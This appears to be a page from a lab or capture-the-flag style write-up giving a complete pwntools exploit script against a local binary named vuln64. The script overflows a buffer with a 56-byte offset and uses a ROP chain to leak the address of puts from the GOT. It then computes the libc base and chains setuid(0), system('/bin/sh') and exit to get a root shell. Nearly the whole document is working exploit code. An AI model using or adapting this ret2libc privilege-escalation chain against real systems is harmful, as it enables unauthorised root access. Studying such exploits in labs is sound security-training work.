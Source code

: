 
## Exploit code provided:

```sh
from pwn import *


context.arch = 'amd64' # set runtime variables in a global setting.

#initialize process for pwntools
elf = ELF("../app/vuln64")
p = elf.process(["../app/vuln64" , "h"])

########################################Stage 1 Offset & Memory leak#######################################

#ROP chain using embedded pwn functions which uses files symbols at runtime to extract plt addresses.
rop= ROP(elf)
rop.call(elf.plt['puts'], [elf.got['puts']]) 		#find puts in procedural link table, print mem address of GOT put
rop.call(elf.sym['helpCommand'])			#return to helpCommand function in program

offset = 56

payload = [
	b"A" * offset,
	rop.chain()

]

payload = b"".join(payload)
p.sendline(payload)
p.recvline()
p.recvline()
puts = u64(p.recvuntil("\n").rstrip().ljust(8, b"\x00")) #store & unpack output. Perform strip
log.info(f"leaked puts@GLIBC found: {hex(puts)}" )	#log output to determine success


############################################Stage 2 Ret2libc##############################################

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")		#specify libc //can be determined by: ldd vuln64 | grep libc
libc.address = puts - libc.symbols["puts"]		#load symbols from libc and perform plt, GOt offset to find base address
log.info(f"libc base address: {hex(libc.address)}" )

binsh = next(libc.search(b"/bin/sh"))			#find /bin/sh address //can use: strings -atx /lib/x86_64-linux-gnu/libc.so.6 | grep /bin/sh
rop.call(libc.sym.setuid, [0])				#final ROP chain, call setuid 0 i.e. root, execute /bin/sh, exit gracefully
rop.call(libc.sym.system, [binsh])
rop.call(libc.sym.exit)

payload = [
	b"A" * offset,
	rop.chain()

]

payload = b"".join(payload)				#send payload
p.sendline(payload)
p.recvline()
```